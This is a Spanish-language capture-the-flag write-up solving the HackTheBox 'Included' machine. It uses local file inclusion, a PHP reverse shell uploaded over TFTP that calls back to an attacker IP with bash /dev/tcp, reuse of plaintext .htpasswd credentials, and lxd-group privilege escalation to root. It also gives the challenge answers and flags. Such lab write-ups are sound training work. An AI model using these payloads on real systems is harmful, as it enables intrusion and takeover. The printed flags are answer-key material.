

Resolución de la máquina Included de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.147.93
Nmap scan report for 10.129.147.93
PORT STATE SERVICE
80/tcp open http
Al abrir la web podemos ver que gestiona la pagina mediante el parametro file= y el .php

Esto parece un Local File Inclusion podemos intentar leer el /etc/passwd y podemos verlo
❯ curl -s "http://10.129.147.93/?file=/etc/passwd" | grep sh$
root:x:0:0:root:/root:/bin/bash
mike:x:1000:1000:mike:/home/mike:/bin/bash
Dejando esto de lado con un escaneo UDP podemos ver el 69 abierto que es tftp
❯ sudo nmap -sU -T5 10.129.147.93
Nmap scan report for 10.129.147.93
PORT STATE SERVICE
69/udp open|filtered tftp
Podemos crear un archivo shell.php con una reverse shell y subirlo con put en tftp
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
?>
❯ tftp 10.129.147.93
tftp> put shell.php
Sent 77 bytes in 0.1 seconds
tftp>
Lo ha subido, para saber donde podemos ver en donde se encuentra el home de tftp
❯ curl -s "http://10.129.147.93/?file=/etc/passwd" | grep tftp
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
Podemos llamar al shell.php en esa ruta y obtenemos una reverse shell como www-data
❯ curl -s "http://10.129.147.93/?file=/var/lib/tftpboot/shell.php"
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.147.93
www-data@included:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@included:~/html$ hostname -I
10.129.147.93 dead:beef::250:56ff:feb9:5778
www-data@included:~/html$
Ya dentro de la máquina podemos ver un archivo .htpasswd con credenciales en texto claro
www-data@included:~/html$ ls -la
drwxr-xr-x 4 root root 4096 Oct 13 2021 .
drwxr-xr-x 3 root root 4096 Apr 23 2021 ..
-rw-r--r-- 1 www-data www-data 212 Apr 23 2021 .htaccess
-rw-r--r-- 1 www-data www-data 17 Apr 23 2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29 2014 default.css
drwxr-xr-x 2 www-data www-data 4096 Apr 23 2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29 2014 fonts.css
-rw-r--r-- 1 www-data www-data 3704 Oct 13 2021 home.php
drwxr-xr-x 2 www-data www-data 4096 Apr 23 2021 images
-rw-r--r-- 1 www-data www-data 145 Oct 13 2021 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29 2014 license.txt
www-data@included:~/html$ cat .htpasswd
mike:Sheffield19
www-data@included:~/html$
Usando las credenciales nos convertimos en mike, que por cierto esta en el grupo lxd
www-data@included:~/html$ su mike
Password: Sheffield19
mike@included:~$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
mike@included:~$ hostname -I
10.129.147.93 dead:beef::250:56ff:feb9:5778
mike@included:~$ cat ~/user.txt
a56ef91d70cfbf2cdb8f454c006935a1
mike@included:~$
Podemos usar un exploit con una imagen de alpine para conseguir una shell en un contenedor
mike@included:~$ bash exploit.sh -f alpine.tar.gz
Image imported with fingerprint: 6660ba8332f9a5637afe2e6713f1e257163aa6c7ae3c8
[*] Listing images...
+--------+--------------+--------+--------------+--------+--------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE |
+--------+--------------+--------+--------------+--------+--------+
| alpine | 6660ba8332f9 | no | alpine v3.14 | x86_64 | 3.10MB |
+--------+--------------+--------+--------------+--------+--------+
Creating privesc
Device giveMeRoot added to privesc
~ # id
uid=0(root) gid=0(root)
~ #
Somos root y la raiz esta montada en /mnt/root asi que podemos leer la flag
/mnt/root/root # cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
/mnt/root/root #
Seguimos en un contenedor asi que hacemos suid la bash real salimos y la ejecutamos con -p
~ # chmod u+s /mnt/root/bin/bash
~ # exit
[*] Removing container... [√]
mike@included:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun 6 2019 /bin/bash
mike@included:~$ bash -p
bash-4.4# whoami
root
bash-4.4# hostname -I
10.129.147.93 dead:beef::250:56ff:feb9:5778
bash-4.4# cat /root/root.txt
c693d9c7499d9f572ee375d4c14c7bcf
bash-4.4#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
What service is running on the target machine over UDP?
- tftp
What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?
- Local File Inclusion
What is the default system folder that TFTP uses to store files?
- /var/lib/tftpboot/
Which interesting file is located in the web server folder and can be used for Lateral Movement?
- .htpasswd
What is the group that user Mike is a part of and can be exploited for Privilege Escalation?
- lxd
When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?
- alpine
What flag do we set to the container so that it has root privileges on the host system?
- security.privileged=true
If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?
- /mnt/root/
Submit user flag
- a56ef91d70cfbf2cdb8f454c006935a1
Submit root flag
- c693d9c7499d9f572ee375d4c14c7bcf